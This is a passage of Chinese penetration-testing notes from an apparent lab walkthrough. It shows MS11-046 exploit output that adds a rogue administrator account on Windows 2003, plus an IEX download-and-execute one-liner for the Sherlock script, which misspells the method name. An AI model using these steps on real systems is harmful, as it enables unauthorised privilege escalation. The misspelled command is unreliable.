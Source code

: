 
试试  `ms11_046` 

```bash
C:\Inetpub\wwwroot\> MS11_46.exe
[>] ms11-046 Exploit
[*] Token system command
[*] command add user k8team k8team
[*] User has been successfully added
[*] Add to Administrators success


C:\Inetpub\wwwroot\> whoami
nt authority\network service


C:\Inetpub\wwwroot\> net user

\\ROOT-032E83FDAC 的用户帐户

-------------------------------------------------------------------------------
abc                      admin                    Administrator            
Guest                    IUSR_ROOT-032E83FDAC     IWAM_ROOT-032E83FDAC     
k8team                   SUPPORT_388945a0         
命令成功完成。
```

成功添加 `k8team` 用户到管理员组。密码也是 `k8team`

结果几秒之后，我 win2003 蓝屏了。

[![DEazZV.png](https://s3.ax1x.com/2020/11/16/DEazZV.png)](https://imgchr.com/i/DEazZV)

**ps : 我还发现如果我直接将本机的文件拖到win2003,权限是没有集成win2003父文件夹的，只有 system，administrator才能操作。而从菜刀等工具上传则会继承，也可以执行。**

**3.4.2 Sherlock**

https://github.com/rasta-mouse/Sherlock

win7  ----- powershell

Sherlock是一个在Windows下用于本地提权的PowerShell脚本。

本地加载脚本

```
Import-Module .\Sherlock.ps1
```

远程记载脚本

```
IEX(New-Object System.Net.Webclient).DownloadingString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
```

发现漏洞
